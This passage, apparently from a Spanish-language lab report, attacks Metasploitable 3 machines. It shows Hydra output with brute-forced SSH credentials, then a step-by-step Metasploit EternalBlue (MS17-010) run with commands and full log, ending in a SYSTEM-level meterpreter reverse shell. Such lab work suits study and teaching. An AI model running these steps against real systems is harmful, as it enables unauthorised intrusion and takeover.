    [22][ssh] host: 192.168.1.75   login: luke_skywalker   password: like_my_father_beforeme
    [22][ssh] host: 192.168.1.75   login: han_solo   password: nerf_herder
    [22][ssh] host: 192.168.1.75   login: artoo_detoo   password: b00p_b33p
    [22][ssh] host: 192.168.1.75   login: c_three_pio   password: Pr0t0c07
    [22][ssh] host: 192.168.1.75   login: ben_kenobi   password: thats_no_m00n
    [22][ssh] host: 192.168.1.75   login: anakin_skywalker   password: but_master:(
    [22][ssh] host: 192.168.1.75   login: jarjar_binks   password: mesah_p@ssw0rd
    [22][ssh] host: 192.168.1.75   login: lando_calrissian   password: @dm1n1str8r
    [22][ssh] host: 192.168.1.75   login: boba_fett   password: mandalorian1
    [22][ssh] host: 192.168.1.75   login: jabba_hutt   password: my_kinda_skum
    [22][ssh] host: 192.168.1.75   login: greedo   password: hanSh0tF1rst
    [22][ssh] host: 192.168.1.75   login: chewbacca   password: rwaaaaawr8
    [22][ssh] host: 192.168.1.75   login: kylo_ren   password: Daddy_Issues2
    1 of 1 target successfully completed, 14 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-19 11:21:11
    ```

5. Como podemos ver nos ha devuelto una lista de usuarios y contraseñas que son válidas para conectarnos por SSH en la máquina, después de probar a hacer login con varios usuarios hemos podido comprobar que algunos tienen acceso de administrador con `sudo`, por lo que tendríamos el control total de la máquina actualmente.

### Conclusión del ataque a Linux

Este ataque se podría haber hecho de diferentes formas, pues la máquina de `metasploitable 3` está llena de vulnerabilidades. Algunas son más complejas y otras lo son menos, nosotros hemos escogido este ataque por ser algo más común de lo que parece, ya que es habitual que las personas no den importancia a los datos almacenados en su servidor web, sobre todo los referentes al login de la base de datos. Es muy importante una correcta configuración de permisos así como un código `SQL` que no permita inyectar caracteres especiales en su consulta.

## Metasploit con Windows

En el caso de `Windows Server 2008 R2`, al ser una versión tan antigua y sin ningún tipo de soporte a día de hoy, la cantidad de vulnerabilidades que tiene son bastante altas. Con el escaneo rápido de `OpenVas` se han detectado 160.

### Vulnerabilidad EternalBlue

Esta es una vulnerabilidad identificada como `CVE-2017-0144`. Es una vulnerabilidad descubierta por la agencia `NSA` y luego filtrada al público por el grupo `Shadow Brokers`, y fue usada para atacar con el `Ransomware` llamado `WannaCry` en 2017.

El fallo que provoca esta vulnerabilidad consiste en que el protocolo `SMBv1`. Para aprovecharla se provoca un desbordamiento del búfer, permitiendo así un ataque de tipo `corrupción de memoria en el kernel`, consiguiendo así ejecutar código arbitrario en el `kernel`. Para realizar este proceso se siguen los siguientes pasos:


#### Funcionamiento del Exploit `ms17_010_eternalblue`
1. Se establece conexión tipo `SMB` en el puerto 445.
2. Una vez establecida la conexión, se envía el `Exploit`.
3. El `Exploit` desborda el búfer, permitiendo así escribir datos fuera de la memoria que ha sido asignada para este proceso.
4. En consecuencia con lo anterior, se sobreescribe parte de la memoria con un nuevo código, este código permite ejecutar lo que se conoce como código `Arbitrario`.
5. El código `arbitrario` puede causar diferentes resultados. Pero en este caso lo que hará será darnos acceso a una `shell` con privilegio de administrador.

#### Resultado del ataque

A continuación, veremos cómo se realiza el ataque, y cómo se nos da acceso a una `shell meterpreter` como administrador.

1. Buscando el exploit y cargándolo para su uso.
    ```bash
    msf6 > search eternalblue

    Matching Modules
    ================

    #  Name                                      Disclosure Date  Rank     Check  Description
    -  ----                                      ---------------  ----     -----  -----------
    0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
    1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
    3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
    4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


    Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

    msf6 > use 0
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    ```
2. Configurando los parámetros necesarios para el exploit y ejecutándolo.
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.0.0.101
    rhosts => 10.0.0.101
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.0.0.100
    lhost => 10.0.0.100
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run

    [*] Started reverse TCP handler on 10.0.0.100:4444 
    [*] 10.0.0.101:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.0.0.101:445        - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
    [*] 10.0.0.101:445        - Scanned 1 of 1 hosts (100% complete)
    [+] 10.0.0.101:445 - The target is vulnerable.
    [*] 10.0.0.101:445 - Connecting to target for exploitation.
    [+] 10.0.0.101:445 - Connection established for exploitation.
    [+] 10.0.0.101:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.0.0.101:445 - CORE raw buffer dump (51 bytes)
    [*] 10.0.0.101:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
    [*] 10.0.0.101:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
    [*] 10.0.0.101:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
    [*] 10.0.0.101:445 - 0x00000030  6b 20 31                                         k 1             
    [+] 10.0.0.101:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.0.0.101:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.0.0.101:445 - Sending all but last fragment of exploit packet
    [*] 10.0.0.101:445 - Starting non-paged pool grooming
    [+] 10.0.0.101:445 - Sending SMBv2 buffers
    [+] 10.0.0.101:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.0.0.101:445 - Sending final SMBv2 buffers.
    [*] 10.0.0.101:445 - Sending last fragment of exploit packet!
    [*] 10.0.0.101:445 - Receiving response from exploit packet
    [+] 10.0.0.101:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.0.0.101:445 - Sending egg to corrupted connection.
    [*] 10.0.0.101:445 - Triggering free of corrupted buffer.
    [*] Sending stage (200774 bytes) to 10.0.0.101
    [+] 10.0.0.101:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.0.0.101:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.0.0.101:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [*] Meterpreter session 1 opened (10.0.0.100:4444 -> 10.0.0.101:49320) at 2023-10-20 14:14:40 +0200
    ```

3. Comprobando que tenemos el permiso más alto que es el de `System` y listando los directorios del disco duro principal.
    ```bash
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > dir c:\
    > 
    Listing: c:
    ===========

    Mode              Size    Type  Last modified              Name
    ----              ----    ----  -------------              ----
    040777/rwxrwxrwx  0       dir   2009-07-14 04:34:39 +0200  $Recycle.Bin
    100444/r--r--r--  8192    fil   2023-03-19 11:03:54 +0100  BOOTSECT.BAK
    040777/rwxrwxrwx  4096    dir   2023-03-19 10:17:25 +0100  Boot
    040777/rwxrwxrwx  0       dir   2009-07-14 07:06:44 +0200  Documents and Settings
    040777/rwxrwxrwx  0       dir   2023-03-19 10:42:07 +0100  ManageEngine
    040777/rwxrwxrwx  0       dir   2009-07-14 05:20:08 +0200  PerfLogs
    040555/r-xr-xr-x  4096    dir   2023-03-19 10:45:01 +0100  Program Files
    040555/r-xr-xr-x  4096    dir   2023-03-19 10:42:07 +0100  Program Files (x86)
    040777/rwxrwxrwx  4096    dir   2023-03-19 10:22:52 +0100  ProgramData
    040777/rwxrwxrwx  0       dir   2023-03-19 10:05:37 +0100  Recovery
    040777/rwxrwxrwx  0       dir   2023-03-19 10:28:58 +0100  RubyDevKit
    040777/rwxrwxrwx  4096    dir   2023-03-19 10:04:27 +0100  System Volume Information
    040555/r-xr-xr-x  4096    dir   2023-03-19 10:20:49 +0100  Users
    040777/rwxrwxrwx  16384   dir   2023-10-20 14:15:50 +0200  Windows
    100666/rw-rw-rw-  226     fil   2015-10-08 03:22:24 +0200  __Argon__.tmp
    100444/r--r--r--  383786  fil   2010-11-21 04:24:02 +0100  bootmgr
    040777/rwxrwxrwx  0       dir   2023-03-19 10:26:40 +0100  glassfish
    040777/rwxrwxrwx  0       dir   2023-03-19 10:20:24 +0100  inetpub
    100666/rw-rw-rw-  0       fil   2023-03-19 10:45:00 +0100  jack_of_diamonds.png
    100666/rw-rw-rw-  103     fil   2023-03-19 10:43:47 +0100  java0.log
    100666/rw-rw-rw-  103     fil   2023-03-19 10:43:47 +0100  java1.log
    100666/rw-rw-rw-  103     fil   2023-03-19 10:43:47 +0100  java2.log
    040777/rwxrwxrwx  0       dir   2023-03-19 10:28:32 +0100  openjdk6
    000000/---------  0       fif   1970-01-01 01:00:00 +0100  pagefile.sys
    040777/rwxrwxrwx  0       dir   2023-10-18 02:20:06 +0200  startup
    040777/rwxrwxrwx  0       dir   2023-10-18 02:19:43 +0200  tmp
    040777/rwxrwxrwx  0       dir   2023-03-19 10:28:46 +0100  tools
    040777/rwxrwxrwx  4096    dir   2023-03-19 10:28:15 +0100  wamp
    ```
#### Conclusión ataque a Windows

`Windows`, a pesar de ser código cerrado, algo que en teoría dificultaría la creación de `Exploit` porque no se conoce su funcionamiento, en la práctica es el sistema que más se intenta atacar. Tampoco se beneficia de una comunidad que le arregle sus `Vulnerabilidades`, por lo que es más propenso a tener `Vulnerabilidades` vigentes durante años. Cuando un grupo o persona detecta alguna `Vulnerabilidad`, no la suele revelar para venderla o usarla en beneficio propio, haciendo que pueda estar ahí durante años, como es el caso de `EternalBlue`.
